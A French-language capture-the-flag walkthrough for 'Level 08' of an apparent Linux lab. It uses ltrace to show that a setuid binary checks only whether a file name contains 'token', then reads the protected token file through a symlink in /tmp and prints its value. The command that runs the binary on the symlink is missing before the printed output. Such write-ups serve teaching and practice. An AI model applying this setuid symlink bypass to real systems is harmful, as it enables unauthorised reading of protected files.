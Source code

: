 ## Level 08: 
  
1.  inspection des fichiers  
    Suite au login, on remarque 2 fichiers présents: un éxecutable `level08` et un fichier `token`.  
    - On essaie d'abord d'éxecuter le binaire avec la commande ```./level08```:
        ```bash
        ./level08 [file to read] 
        ```
    - On essaie donc d'éxecuter le binaire en donnant `token` comme argument avec la commande ```./level08 token```:
        ```bash
        You may not access 'token' 
        ```
    - On essaie d'inspecter le contenu de token avec la commande ```cat token```:
        ```bash
        cat: token: Permission denied
        ```
    - On inspecte alors les permissions des fichiers avec la commande ```ls -la level08 token```:
        ```bash
        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token
        ```
    
    On comprend alors que le fichier `token` a des permissions strictes : il est uniquement accessible en lecture et écriture par l'utilisateur `flag08`.  
    En revanche, l'éxecutable `level08` a une permission qui nous interesse: le `s` (bit setuid) est activé. Cela signifie que lorsqu'on éxecute le programme, on l'éxecute avec les privilèges du propriétaire : `flag08`.


2.  Analyse de l'éxecutable avec ltrace   
    Il faut maintenant comprendre pourquoi la commande ```./level08 token``` nous donne:
    ```bash
    You may not access 'token'
    ```
    Pour comprendre cela, nous allons utiliser `ltrace` car il permet de suivre les appels aux bibliothèques et d'examiner les interactions avec le système de fichiers. 
    ```bash
    ltrace -f ./level08 token
    ```
    Output:
    ```bash
    [pid 3033] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3033] strstr("token", "token")                                          = "token"
    [pid 3033] printf("You may not access '%s'\n", "token"You may not access 'token'             )                      = 27
    [pid 3033] exit(1 <unfinished ...>
    [pid 3033] +++ exited (status 1) +++
    ```
    On comprend que le programme utilise `strstr` pour vérifier si le mot `token` est présent dans le nom du fichier.  
    Ainsi, si on essaie d'éxecuter `level08` avec un fichier qui ne comporte pas le mot `token`:
    ```bash
    ltrace -f ./level08 test
    ```
    Output:
    ```bash
    [pid 3061] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3061] strstr("test", "token")                                           = NULL
    [pid 3061] open("test", 0, 014435162522)                                     = -1
    [pid 3061] err(1, 0x80487b2, 0xbffff907, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open test: No such file or directory  <unfinished ...>
    [pid 3061] +++ exited (status 1) +++
    ```
    On peut voir que le programme ne trouve pas le mot `token` et essaie donc d'ouvrir le fichier `test`, qui n'existe pas.  
    Ainsi, si la seule condition est que le fichier en argument ne comporte pas le mot `token` pour que `level08` s'éxecute, cela peut être une faille exploitable avec une création de lien symbolique.

2.  Exploitation de la faille  
    Un lien symbolique (ou symlink) est un fichier spécial qui pointe vers un autre fichier ou répertoire. Il fonctionne comme un raccourci.  
    Cela permet au programme d'accéder indirectement au fichier `token` sans qu'il sache qu'il s'agit du fichier `token` au sens strict, échappant alors à la vérification par `strstr`.  
    On va donc créer un lien symbolique avec le fichier `token`, sans utiliser le mot `token`:
    ```bash
    ln -s /home/user/level08/token /tmp/test
    ```
    `ln` est la commande Linux utilisée pour créer des liens (hard links ou symbolic links, selon l'option utilisée).  
    Par défaut, `ln` crée un hard link, mais ici, l'option `-s` est spécifiée, ce qui signifie que la commande créera un lien symbolique (symlink). Contrairement à un hard link, un lien symbolique peut pointer vers un fichier ou répertoire situé sur un autre système de fichiers.

    Ouput:
    ```bash
    quif5eloekouj29ke0vouxean 
    ```

